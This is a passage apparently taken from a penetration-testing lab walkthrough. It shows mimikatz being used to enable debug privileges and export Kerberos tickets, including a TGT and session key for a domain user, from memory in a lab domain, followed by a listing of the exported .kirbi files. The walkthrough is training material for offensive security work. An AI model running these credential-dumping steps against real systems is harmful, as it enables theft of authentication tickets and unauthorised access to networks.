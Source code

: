 Confirming that _jen_ has no access to the restricted folder, we can now launch mimikatz, enable debug privileges, and export all the TGT/TGS from memory with the **sekurlsa::tickets /export** command.

```
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension.

```shell
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami